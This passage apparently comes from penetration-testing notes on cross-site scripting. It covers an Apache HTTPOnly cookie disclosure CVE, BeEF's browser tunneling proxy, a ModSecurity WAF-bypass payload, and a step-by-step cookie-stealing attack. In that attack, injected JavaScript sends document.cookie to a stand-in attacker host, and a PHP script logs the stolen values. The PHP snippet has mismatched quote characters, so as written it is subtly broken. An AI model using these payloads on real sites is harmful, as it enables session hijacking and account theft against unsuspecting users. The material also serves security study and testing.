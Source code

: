 >**CVE-2012-0053: Apache HTTPOnly cookie disclosure**. For Apache HTTP Server 2.2.x through 2.2.21. For an HTTP-Header value exceeding the server limits, the server responded with a HTTP 400 Bad Request including the complete headers containing the HTTPOnly cookies. ([https://gist.github.com/pilate/1955a1c28324d4724b7b](https://gist.github.com/pilate/1955a1c28324d4724b7b)). [BeEF](../beef.md) has a module named Apache Cookie Disclosure, available under Exploits section.

#### 2.2. BeEF Tunneling Proxy

An alternative to stealing protected cookies is to use the victim browser as a proxy. The Tunneling Proxy in [BeEF](../beef.md) exploits the XSS flaw and uses the victim browser to perform requests as the victim user to the web application. Basically, it tunnels requests through the hooked browser. By doing so, there is no way for the web application to distinguish between requests coming from legitimate user and requests forged by an atacker. 
BeEF allows you to bypass other web developer protection techniques such as using multiple validations (User-agent, custom headers,...)

### Bypassing WAFs

#### ModSecurity

```
<svg onload='new Function`[“_Y000!_”].find(al\u0065rt)`'>
```

## Examples of typical attacks
### 1. Cookie stealing: examples and techniques

#### Example 1

Identify an injection endpoint and test that the app is vulnerable to a basic xss payload such as:

```html
<script>alert(‘lala’)</script>
```

 Once you know is vulnerable, prepare a malicious javascript code for stealing the cookies:

```js
<script>
var i = new Image();
i.src = "http://attacker.site/log.php?q="+document.cookie;
</script>
```
  
Add that code to the injection endpoint that you detected in step 1. That code will save the cookie in a text file on the attacker site.

Create a text file (log.php) for capturing the sent cookie in the attacker site:

```php
	<?php
		$filename=”/tmp/log.txt”;
		$fp=fopen($filename, ‘a’);
		$cookie=$_GET[‘q`];
		fwrite($fp, $cookie);
		fclose($fp);
	?>
```
